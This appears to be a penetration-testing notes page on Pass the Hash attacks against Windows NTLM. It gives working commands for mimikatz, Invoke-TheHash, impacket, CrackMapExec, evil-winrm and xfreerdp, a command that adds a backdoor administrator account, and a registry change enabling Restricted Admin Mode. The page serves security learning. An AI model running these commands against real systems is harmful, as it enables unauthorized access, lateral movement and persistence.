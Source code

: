 ```yaml
---
title: Pass The Hash
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - privilege escalation
  - windows
---
```


# Pass The Hash

With NTLM, passwords stored on the server and domain controller are not "salted," which means that an adversary with a password hash can authenticate a session without knowing the original password. A Pass the Hash (PtH) attack is a technique where an attacker uses a password hash instead of the plain text password for authentication. 

## Pass the Hash with Mimikatz (Windows)

see [mimikatz](mimikatz.md)

```powershell
# Pass The Hash attack in windows:
# 1. Run mimikatz
mimikatz.exe privilege::debug "sekurlsa::pth /user:<username> /rc4:<NTLM hash> /domain:<DOMAIN> /run:<Command>" exit
# sekurlsa::pth is a module that allows us to perform a Pass the Hash attack by starting a process using the hash of the user's password
# /run:<Command>: For example /run:cmd.exe
# 2. After that, we canuse cmd.exe to execute commands in the user's context. 
```


## Pass the Hash with PowerShell Invoke-TheHash (Windows)

[See Powershell Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash). This tool is a collection of PowerShell functions for performing Pass the Hash attacks with WMI and SMB. WMI and SMB connections are accessed through the .NET TCPClient. Authentication is performed by passing an NTLM hash into the NTLMv2 authentication protocol. Local administrator privileges are not required client-side, but the user and hash we use to authenticate need to have administrative rights on the target computer.


When using Invoke-TheHash, we have two options: SMB or WMI command execution.

```powershell
cd C:\tools\Invoke-TheHash\

Import-Module .\Invoke-TheHash.psd1
```


### Invoke-TheHash with SMB

```powershell
Invoke-SMBExec -Target $ip -Domain <DOMAIN> -Username <USERNAME> -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
# Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.
# we can execute `Invoke-TheHash` to execute our PowerShell reverse shell script in the target computer.
```

[How to generate a reverse shell](reverse-shells.md).

### Invoke-TheHash with WMI

```powershell
Invoke-WMIExec -Target $machineName -Domain <DOMAIN> -Username <USERNAME> -Hash 64F12CDDAA88057E06A81B54E73B949B -Command  "net user mark Password123 /add && net localgroup administrators mark /add" 
```

[How to generate a reverse shell](reverse-shells.md).


## Pass the Hash with Impacket (Linux)

### Pass the Hash with Impacket PsExec

```bash
impacket-psexec <username>@$ip -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

### Pass the Hash with impacket-wmiexec

Download from: [https://github.com/fortra/impacket/blob/master/examples/wmiexec.py](https://github.com/fortra/impacket/blob/master/examples/wmiexec.py).


### Pass the Hash with  impacket-atexec

Download from:  [https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)


### Pass the Hash with  impacket-smbexec

Download from: [https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)


## Pass the Hash with CrackMapExec (Linux)

See [CrackMapExec](crackmapexec.md)

```powershell

# Using a hash instead of a password, to authenticate ourselves
crackmapexec smb $ip -u <username> -H <hash> -d <DOMAIN>

# Execute commands with flag -x
crackmapexec smb $ip/24 -u <Administrator> -d . -H <hash> -x whoami
```



## Pass the Hash with evil-winrm (Linux)

See [evil-winrm](evil-winrm.md).

If SMB is blocked or we don't have administrative rights, we can use this alternative protocol to connect to the target machine.

```bash
evil-winrm -i $ip -u <username> -H <hash>
```


## Pass the Hash with RDP (Linux)

```bash
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:$ip
# /pth:<hash>   Pass the hash
```

**Restricted Admin Mode**, which is disabled by default, should be enabled on the target host; otherwise, you will be presented with an error. This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` with the value of 0. It can be done using the following command:

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Once the registry key is added, we can use xfreerdp with the option /pth to gain RDP access.


## UAC Limits Pass the Hash for Local Accounts

UAC (User Account Control) limits local users' ability to perform remote administration operations. When the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to 0, it means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to perform remote administration tasks. Setting it to 1 allows the other local admins as well.

>Note: There is one exception, if the registry key FilterAdministratorToken (disabled by default) is enabled (value 1), the RID 500 account (even if it is renamed) is enrolled in UAC protection. This means that remote PTH will fail against the machine when using that account. ´